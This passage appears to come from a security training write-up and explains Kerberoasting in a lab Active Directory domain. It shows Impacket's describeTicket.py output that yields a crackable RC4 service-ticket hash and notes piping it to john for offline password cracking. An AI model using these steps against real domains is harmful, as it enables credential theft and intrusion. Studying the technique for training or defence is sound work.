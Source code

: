 In this case, the `enc-part->cipher` field contains the service ticket which is encrypted with the service account's password. We can run `describeTicket.py` and pipe the output to `john` for cracking.

> If you want to learn more about how Kerberos works, check out our [public preview](https://github.com/ASYNC-Security/W200-Preview-Public?tab=readme-ov-file#kerberoasting) of our W200 course.

```
~$ describeTicket.py /tmp/krb5cc_1000
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 2
[*] Parsing credential[0]:
[*] Ticket Session Key            : c6a42e5645c02296b49b5e3b26610ce07537f383ba7e26066d28c4f8af03e7f3
[*] User Name                     : chloe.lim
[*] User Realm                    : ANTENNAE.RV
[*] Service Name                  : krbtgt/ANTENNAE.RV
[*] Service Realm                 : ANTENNAE.RV
[*] Start Time                    : 07/09/2025 08:45:27 AM
[*] End Time                      : 07/09/2025 18:45:27 PM
[*] RenewTill                     : 08/09/2025 08:45:27 AM
[*] Flags                         : (0xe10000) renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : xqQuVkXAIpa0m147JmEM4HU384O6fiYGbSjE+K8D5/M=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/ANTENNAE.RV
[*]   Service Realm               : ANTENNAE.RV
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
[*] Parsing credential[0]:
[*] Ticket Session Key            : 9ee0acdda8247fecc421ed5751706835
[*] User Name                     : chloe.lim
[*] User Realm                    : ANTENNAE.RV
[*] Service Name                  : TERMSRV/vdi.antennae.rv
[*] Service Realm                 : ANTENNAE.RV
[*] Start Time                    : 07/09/2025 08:46:21 AM
[*] End Time                      : 07/09/2025 18:45:27 PM
[*] RenewTill                     : 08/09/2025 08:45:27 AM
[*] Flags                         : (0xa10000) renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : nuCs3agkf+zEIe1XUXBoNQ==
[*] Kerberoast hash               : $krb5tgs$23$*USER$ANTENNAE.RV$TERMSRV/vdi.antennae.rv*$f7a2c6216c08a17845806011049566b3$5[...snip...]0b6146b1e037b0fc3f81037ccc0260dd022ab44d39351b95027b1a57f400bb7f536a14a96e3e74e94ba
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : TERMSRV/vdi.antennae.rv
[*]   Service Realm               : ANTENNAE.RV
[*]   Encryption type             : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
```
